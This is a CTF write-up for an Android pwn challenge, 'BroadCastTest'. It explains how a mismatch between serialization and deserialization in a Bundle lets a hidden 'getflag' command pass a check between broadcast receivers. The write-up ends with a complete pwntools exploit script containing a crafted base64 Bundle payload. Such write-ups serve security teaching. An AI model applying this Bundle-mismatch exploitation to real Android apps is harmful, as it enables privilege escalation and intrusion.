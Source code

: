 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

[attachment](./BroadcastTest.apk)

[docker](./docker.zip)

This chall is an android pwn
The vulnerability is about the mismatch between serialization and deserialization
This chall is mainly inspired by CVE-2017-13311, etc.

You can read this article https://weekly-geekly.github.io/articles/457558/index.html, which details the cause of similar vulnerabilities

In the apk, it first read the Base64 string, then base64deocde the data and put it as a Bundle in the broadcast, send it to Receiver2
Receiver2 receives the broadcast, takes out the Bundle, and then takes out a string which key is "command" from the bundle, and determines whether it is getflag,
If not, the Receiver2 will continue to broadcast the data to Receiver3
Receiver3 receives the broadcast, takes out the Bundle, check whether the command is getflag, if so, it outputs "Congratulation"

We cannot pass this check in a normal way, but there is a com.de1ta.broadcasttest.MainActivity $ Message class in the apk, where the serialization and deserialization do not match

In Receiver2, checking whether the command is "getflag" will cause the Bundle to be deserialized. When it is sent to Receiver3, it will be serialized again. Finally, Receiver3 will perform the last deserialization after receiving the Bundle.

Using the vulnerability, the string whose key is command cannot be obtained when it is deserialized in Receiver2. After serialization, the string with key as command and the value of getflag appears, and then the check of Receiver3 can pass, and finally get To flag

Below is the exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```

